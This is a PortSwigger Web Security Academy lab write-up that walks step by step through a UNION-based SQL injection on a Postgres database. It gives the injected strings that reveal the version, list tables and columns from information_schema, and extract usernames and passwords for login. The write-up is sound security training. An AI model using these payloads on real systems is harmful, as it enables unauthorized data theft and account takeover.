





# Write-up: SQL injection attack, listing the database contents on non-Oracle databases @ PortSwigger Academy



This write-up for the lab *SQL injection attack, listing the database contents on non-Oracle databases* is part of my walkthrough series for [PortSwigger's Web Security Academy](https://portswigger.net/web-security).

Lab-Link: <https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-non-oracle>  
Difficulty: PRACTITIONER  
Python script: [script.py](script.py)  

## Lab description



## Query

The query used in the lab will look something like

```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>'
```

## Steps

The first steps are identical to the labs [SQL injection UNION attack, determining the number of columns returned by the query](../SQL_injection_UNION_attack,_determining_the_number_of_columns_returned_by_the_query/README.md) and [SQL injection UNION attack, finding a column containing text](../SQL_injection_UNION_attack,_finding_a_column_containing_text/README.md) and are not repeated here.

As a result of these steps, I find out that the number of columns is 2, with both being string columns.

### Find users table

The database in use here is Postgres (enumerated by injection `' UNION SELECT null,version()--`), which holds the table information in the information_schema.tables-table. In the [relevant documentation](https://www.postgresql.org/docs/9.1/infoschema-tables.html), the available columns are listed. We are interested in `table_name`. So inject `' UNION SELECT table_name, table_schema from information_schema.tables--` into the parameter to form the following query:

I use an invalid category so that no articles are found and only my output appears.

```sql
SELECT * FROM someTable WHERE category='X' UNION SELECT table_name, null from information_schema.tables--'`
```



### Enumerate colums in this table

The [information_schema.columns](https://www.postgresql.org/docs/9.1/infoschema-columns.html) view holds information about the columns of each table, specifically the `column_name` column. The proper string to inject is `' UNION SELECT column_name, null from information_schema.columns WHERE table_name = 'users_kcstmf'--` to form this query

```sql
SELECT * FROM someTable WHERE category='X' UNION SELECT column_name, null from information_schema.columns WHERE table_name = 'users_kcstmf'--'
```



### Enumerate all usernames and passwords

Now we have all information to obtain the required usernames and passwords. Inject `' UNION SELECT username_spivdg, password_dfxmeh from users_kcstmf--` to form this query:

```sql
SELECT * FROM someTable WHERE category='X' UNION SELECT username_spivdg, password_dfxmeh from users_kcstmf--'`
```


Now I simply log in to solve this exercise.


